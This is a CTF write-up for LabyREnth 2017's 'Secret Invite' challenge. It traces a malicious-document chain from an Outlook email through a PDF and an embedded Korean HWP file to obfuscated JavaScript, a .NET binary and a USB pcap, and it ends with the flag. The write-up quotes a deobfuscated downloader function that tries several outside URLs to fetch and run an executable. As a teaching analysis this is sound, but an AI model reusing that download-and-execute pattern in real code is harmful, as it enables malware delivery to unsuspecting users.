






## LabyREnth CTF 2017
# Document 3 : Secret Invite

We are provided with a Outlook email file. 

If you have Microsoft Outlook installed, open the file and save the attachment **secret.invite.pdf.7z**



If not, unzip the folder and the 7zip file is at "\_\_attach_version1.0_#00000000/\_\_substg1.0_37010102"


The 7zip file is password protected.

### Unlocking the 7zip

Looking through the unzipped contents, I noticed a url at the end of "__substg.1.0_1000001F"


Visit http://www.reversing.sg/B3@chP@r7y/ and view it's page source.

There are 2 pieces of important information here
- An Ascii Hex String
- A Base64-Encoded String


Decoding "676f6f2e676c2f795632744673" as Ascii Hex gives  
==> "goo.gl/yV2tFs" which gives  
  ==> "http://www.reversing.sg/B3@chP@r7y/Part1.png"


Download the png file and save it. This is part 1 of the flag


Decoding the Base64 string

> R3JlYXQgc3RhcnQgaW4gZmluZGluZyB0aGlzIGNsdWUuICANCldlIGhvcGUgdGhhdCB5b3UgbGlrZSBodW50aW5nLiANCkFzIHRoZXJlIGFyZSBzZXZlcmFsIHRoaW5ncyBmb3IgeW91IHRvIGh1bnQgZm9yLg0KDQpUaGUgaGludCB0byBsb2dpbiBpczogDQpvbWd3dGZub2JicQ==

gives

```
Great start in finding this clue.  
We hope that you like hunting. 
As there are several things for you to hunt for.

The hint to login is: 
omgwtfnobbq
```

"omgwtfnobbq" is the password to the 7zip archive. Use it and unzip **secret.invite.pdf.7z**.

Unzipping the archive will produce **secret.invite.pdf**

### Analyzing the PDF

Let's analyze the structure of this PDF file

```bash
pdfid secret.invite.pdf
```


Looks like there is an autorun action ("/OpenAction") and some Javascripts

I saved some of the Javascript code in [pdfjs.js](2_pdf_js.js)

I spent quite some time looking through the Javascripts but they are actually not important.  
They are mainly used to draw some graphs.

The important part of the PDF is actually the EmbeddedFile.  
The Javascript code also gave a clue on the name of this file **secret.invite.hwp**

```bash
pdf-parser -s /EmbeddedFile secret.invite.pdf
```


The embedded file is in Object 4. 

```bash
pdf-parser -o 4 -f -w secret.invite.pdf
```



Use pdf-parser to pipe the raw output into a file

```bash
pdf-parser -o 4 -f -w secret.invite.pdf > secret.invite.hwp
```

Remove the text portions at the beginning of the file. (File should start with 0xdocf)

Running file on it gives us a clue of what file this is.

```bash
> file secret.invite.hwp 
secret.invite.hwp: Hangul (Korean) Word Processor File 5.x
```

### Analyzing the HWP

Doing some research on this reveals that it is a Korean Word file and can be opened with Microsoft Word.

Open it in Microsoft word and we see the following message


```
あなたに良い一日

私は私たちを止めるのに役立つかもしれない秘密の文書を添付しました Kim JongCracks

さようなら
Agent K
```

There is also an embedded file at the end of the message.

Clicking on the file allows me to save it ==> [troll.js](3_troll.js)

**troll.js** is obfuscated. However, the obfuscation is straight forward to deobfuscate albeit tedious  
The code is bascially building a large string and then running it through eval at the end.

I've deobfuscated the code to [untroll.js](3_untroll.js).  
This code will output the decoded string in the Browser's console log

Create a testing html file that will run the Javascript file

```html
<html>
<body>
<script src="3_untroll.js"></script>
</body>
</html>
```

Look in the browser console to find the decoded string


Looks like more Javascript, I saved it in [aftertroll.js](4_aftertroll.js)

The following is the important part of the code

```js
function getData(callback) {
    try {
        getDataFromUrl("http://r.u.kidding.me69/DAB58154yc/", function(result, error) {
            if ( ! error) {return callback(result, false); } 
            else {
                getDataFromUrl("http://shall.we.playctfga.me69/ni95716oSOsA/", function(result, error) {
                    if ( ! error) {return callback(result, false); } 
                    else {
                        getDataFromUrl("http://omgwtfbbq.no69/VqCj49674sPnb/", function(result, error) {
                            if ( ! error) {return callback(result, false); } 
                            else {
                                getDataFromUrl("http://nono.thiscannot.be69/Isb50659TZdS/", function(result, error) {
                                    if ( ! error) {return callback(result, false); } 
                                    else {
                                        getDataFromUrl("http://reversing.sg/pdfHWP/part1.flag.exe", function(result, error) {
                                            if ( ! error) {return callback(result, false); } 
                                            else {return callback(null, true); }
                                        });
                                    } 
                                }); 
                            } 
                        });
                    } 
                });
            } 
        }); 
    } 
    catch (error) {return callback(null, true); }
} 
```

This code basically tries to download a file from a set of urls and execute it.

The only url that works is "http://reversing.sg/pdfHWP/part1.flag.exe"

Download the exe and put it into IDA Pro.  
IDA Pro identifies it as a .Net executable  
Use dnSpy to decompile it instead

### Now its a .NET

The interesting part of the decompiled code is in [Form1.cs](5_Form1.cs)



It does a bunch of decryption.  
I copied the important parts of the code into another C# project that I created in Visual Studio -> [Program.cs](5_Program.cs)  
Running it decrypts all the strings as follows


```
    Sanity Check: That Labyrenth CTF is pretty decent.
    Low Key: 5203344587564335
    Mid Key: 5388080131435925
    High Key: 7708807458395240
    There are images within the usb.pcap!
    The key to decrypt the flag is XOR 0x21
    You got to try harder than this!
```

There is a "usb.pcap"??? (Also note that the flag is Xor Encrypted with 0x21)

Look at dnSpy and browse the application's resource folder. The "usb.pcap" file is stored there.



Extract it (Right-click -> save) and open it in Wireshark

### Then a PCAP

There seems to be some file transfer in the pcap file.

Sort the packets by Length and look out for the large transfers with URB_BULK_OUT


Looks like some jpgs are being transferred.

There are a total of 5 images (jpgs) that is transferred. They are in the following packet numbers
- 187
- 234
- 280
- 311
- 315
- 357

[187.jpg](6_usb_jpgs/187.jpg), [234.jpg](6_usb_jpgs/234.jpg) and [357.jpg](6_usb_jpgs/357.jpg) are normal JPEGs and can be viewed as is.

311 and 315 is actually part of the same image.

I wrote [combine_311_315.php](6_usb_jpgs/combine_311_315.php) to combine these 2 images

```php
$d1 = file_get_contents("311.jpg");
$d2 = file_get_contents("315.jpg");
file_put_contents("311315.jpg",$d1.$d2);
```

The output is also a normal jpg ([311315.jpg](6_usb_jpgs/311315.jpg))

Finally, [280.jpg](6_usb_jpgs/280.jpg) looks like gibberish.  
Maybe this is the flag which is xor encrypted with 0x21?

I wrote [solveusb.php](6_usb_jpgs/solveusb.php) to xor decrypt 280 with 0x21

```php
$data = file_get_contents("280.jpg");
$out = "";
for ($i=0; $i<strlen($data); $i++){
    $cur = ord($data[$i]);
    $out .= chr($cur ^ 0x21);
}
file_put_contents('280_dec.jpg',$out);
```

Running it gives the 2nd part of our flag 



Combining the 2 images will reveal the full flag.  
I wrote a simple [flag.html](flag.html) file that will show the 2 images together

```html

```



The flag is **PAN{N0thing_I5_S@f3_In_Thi5_W0rld!}**